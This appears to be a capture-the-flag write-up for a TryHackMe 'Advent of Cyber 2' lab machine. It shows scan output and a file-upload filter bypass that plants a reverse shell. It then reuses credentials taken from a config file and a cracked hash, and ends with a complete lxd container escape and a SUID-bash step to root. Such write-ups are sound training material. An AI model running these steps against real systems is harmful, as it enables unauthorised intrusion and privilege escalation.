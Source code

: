 # AdventOfCyber2

## Task 29

### NMAP scan

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-24 12:16 EST
Nmap scan report for 10.10.110.96
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
65000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.94 seconds
```


### Gobuster scan

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.110.96:65000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,phtml,php
[+] Timeout:        10s
===============================================================
2020/12/24 12:23:15 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads.php (Status: 200)
/assets (Status: 301)
/api (Status: 301)
/grid (Status: 301)
Progress: 18271 / 220561 (8.28%)
===============================================================
2020/12/24 12:31:18 Finished
===============================================================

```

### Getting access

- Using burp to block the filter.js file and using the extension `.png.php` allowed me to upload a reverse shell
- In the `/grid` directory all the uploaded files were stored so i got the shell easily

### Upgrade and stabilize shell

```
# https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# In the reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z

# In our machine
$ stty raw -echo
$ fg

# In reverse shell
# Push Intro/CTRL-C
$ export TERM=xterm
```

### web.txt flag

`/var/www/web.txt` --> `THM{ENTER_THE_GRID}`


### Local DB credentials

- `/var/www/TheGrid/includes/dbauth.php` --> tron:IFightForTheUsers (*DB address:* `localhost`, *MSQL DB:* tron)

### Accessing the local DB

Use `mysql -u tron -p tron` and introduce the password IFightForTheUsers

```
mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
```

Using Crackstation: `flynn:@computer@`

Looks like the user used the same password in the machine so `su flynn` and use the found password to change to the new user

### user.txt flag

`/home/flynn/user.txt` --> `THM{IDENTITY_DISC_RECOGNISED}`

### Scaling privileges

`flynn` user is in the `lxd` so we can use `lxc`:

```
flynn@light-cycle:~$ lxc image list
To start your first container, try: lxc launch ubuntu:18.04

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```

We are lucky, we already have and Alpine image in the machine (Very convenient), lets get root access:

`lxc init Alpine pwned -c security.privileged=true`
`lxc config device add pwned system disk source=/ path=/mnt/root recursive=true`
`lxc start pwned`
`lxc exec pwned /bin/sh`

Nice we are in the container, we can access the victim file system in `/mnt/root` and get the flag:

`/root/root.txt` --> `THM{FLYNN_LIVES}`

If you want to get access as root to the actual machine and not only the container we can do the following:

`chmod +s /mnt/root/bin/bash`

That command will set the SUID to the victim machine bash. Just exit the container and type `bash -p` to get access as root to the machine!
